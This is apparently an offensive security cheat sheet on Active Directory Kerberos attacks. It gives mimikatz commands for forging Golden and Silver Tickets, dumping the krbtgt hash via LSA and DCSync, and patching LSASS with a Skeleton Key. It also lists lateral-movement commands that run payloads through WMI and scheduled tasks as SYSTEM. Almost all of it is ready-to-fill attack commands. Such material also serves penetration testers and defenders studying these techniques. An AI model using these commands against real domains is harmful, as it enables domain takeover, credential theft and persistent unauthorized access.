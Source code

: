 # Tickets

## Get domain SID

Execute the following command in a domain machine.&#x20;

```
whoami /user
```

The SID is a string formatted as following. We need the string without the RID

```
S-1-5-21-1602875587-2787523311-2599479668 [-1103]
|------------------SID-------------------||--RID--|
```

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                  |
| -------------------------------------- | -------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                     |
| /domain                                | FQDN                                                                                         |
| /sid                                   | Domain SID                                                                                   |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                            |
| /id                                    | User ID, use 500 for Administrator                                                           |
| /groups                                | Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           | 0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                               |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                               |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                |

### Mimikatz info dump

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                  |
| --------------- | -------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                     |
| /domain         | FQDN                                                                                         |
| /sid            | Domain SID                                                                                   |
| /rc4            | NTLM key                                                                                     |
| /id             | User ID, use 500 for Administrator                                                           |
| /groups         | Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    | 0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                               |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                               |
| /service        | Type of service to attack. See table below for reference.                                    |
| /target         | The target host                                                                              |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                |

### List of service attacks

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type. The following attacks are run from the Windows machine where oyu have created the ticket

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |
| MSSQL                               | MSSQL                                          |

#### WMI

```
wmic.exe /authority:"kerberos:<domain>\<DC>" /node:"<target>" process call create "<payload>"
```

#### PowerShell remoting / WinRM

```
New-PSSESSION -NAME PSC -ComputerName <target>; Enter-PSSession -Name PSC
```

#### Task Scheduler

```
schtasks /create /s <target> /SC <time> <amount> /RU "NT Authority\System" /IR "<payload>"
schtasks /create /s <target> /SC <time> <amount> /RU "<group>/<user>" /IR "<payload>"
```

The available times are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE. For the first 5 ones you also have to specify an amount of time, for instance HOURLY 3 means start every 3 hours.

#### Windows File Share

```
dir \\<target>\c$
```

#### LDAP Desync attack

```
lsadump::dcsync /dc:<DC> /domain:<domain> /user:krbtgt
```

#### MSSQL

```
sqlcmd.exe -S <hostname>
```

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```
